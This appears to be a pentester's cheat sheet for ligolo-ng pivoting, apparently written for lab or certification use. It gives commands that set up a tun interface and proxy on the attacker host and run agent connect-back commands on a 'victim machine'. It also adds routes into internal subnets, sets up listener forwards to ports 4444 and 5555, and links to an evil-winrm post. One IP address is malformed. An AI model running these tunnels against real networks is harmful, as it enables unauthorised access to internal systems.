 ## Host Machine
```
sudo ip tuntap add user kali mode tun ligolo 
```

```
sudo ip link set ligolo up
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:8443
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:8443
```

## On Victim Machine
```
.\agent.exe -connect 192.168.45.164:8444 -ignore-cert
```

```
./agent -connect 10.10.16.6:8443 -ignore-cert
```

```
.\agent.exe -connect 10.10.16.:443 -ignore-cert
```

## On Host Machine
```
sudo ip route add 10.9.20.0/24 dev ligolo
```

```
sudo ip route add 10.9.10.0/24 dev ligolo
```

```
sudo ip route add 10.9.15.0/24 dev ligolo
```

```
sudo ip route add 192.168.1.0/24 dev ligolo
```
## Listeners
```rust
listener_add --addr 0.0.0.0:443 --to 0.0.0.0:4444
```

```
listener_add --addr 0.0.0.0:80 --to 0.0.0.0:5555
```

.\agent.exe -connect 10.10.14.21:8433 -ignore-cert

listener_add --addr 0.0.0.0:8443 --to 0.0.0.0:8443 --tcp
https://malicious.link/posts/2020/run-as-system-using-evil-winrm/

10.129.0.1


